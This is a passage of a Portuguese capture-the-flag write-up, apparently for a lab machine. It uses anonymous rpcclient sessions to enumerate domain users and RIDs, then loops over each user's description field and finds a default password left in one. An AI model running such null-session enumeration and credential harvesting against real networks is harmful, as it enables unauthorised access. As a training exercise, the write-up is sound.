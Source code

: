 ```powershell
#>  user:[claire] rid:[0x19d3]
#>  user:[paulo] rid:[0x19d4]
#>  user:[steve] rid:[0x19d5]
#>  user:[annette] rid:[0x19d6]
#>  user:[annika] rid:[0x19d7]
#>  user:[per] rid:[0x19d8]
#>  user:[claude] rid:[0x19d9]
#>  user:[melanie] rid:[0x2775]
#>  user:[zach] rid:[0x2776]
#>  user:[simon] rid:[0x2777]
#>  user:[naoki] rid:[0x2778]
```

Desta forma, podemos filtar o output, exportar para ficheiro e tal, como qualquer outro commando do sistema.

A primeira a coisa a fazer é gravar para um ficheiro todos os usernames

```powershell
rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d "[]" > contents/users
```

Depois disso, podemos extrair mais informações. O RPC funciona com queries ao rid e não ao username.

```powershell
rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $2}' | grep -oP '\[.*?\]' | tr -d "[]" | xargs
#> 0x1f4 0x1f5 0x1f6 0x1f7 0x451 0x457 0x19c9 0x19ca 0x19cb 0x19cc 0x19cd 0x19ce 0x19cf 0x19d0 0x19d1 0x19d2 0x19d3 0x19d4 0x19d5 0x19d6 0x19d7 0x19d8 0x19d9 0x2775 0x2776 0x2777 0x2778
```

Com todos os rids, podemos pedir detalhes de cada um e filtrar apenas os campos que nos interessa usando vários rpcclient com apenas uma linha de commando...

O que nos interessa por enquanto é obter informações básica. Queremos saber os nomes de usuários, e se o mesmo foi criado com alguma descrição que possamos usar no futuro. Em empresas, é comum mencionar dados sensíveis no campo de descrição quando o administrador cria um novo usuário (password por defeito, função, email, contacto telefónico...). É claro que, para um CaptureTheFlag, o número de telefone não me é muito util (provavelmente ser um fictício lol), mas uma palavra passe dá sempre jeito =).

```powershell
for rid in $(rpcclient -U '' 10.10.10.169 -N -c 'enumdomusers' | awk '{print $2}' | grep -oP '\[.*?\]' | tr -d "[]"); do echo; rpcclient -U '' 10.10.10.169 -N -c "queryuser $rid" | grep -E "User Name|Description"; done

#>          User Name   :   Administrator
#>          Description :   Built-in account for administering the computer/domain
#>
#>          User Name   :   Guest
#>          Description :   Built-in account for guest access to the computer/domain
#>
#>          User Name   :   krbtgt
#>          Description :   Key Distribution Center Service Account
#>
#>          User Name   :   DefaultAccount
#>          Description :   A user account managed by the system.
#>
#>          User Name   :   ryan
#>          Description :
#>
#>          User Name   :   marko
#>          Description :   Account created. Password set to Welcome123!
#>
#>          User Name   :   sunita
#>  		...
```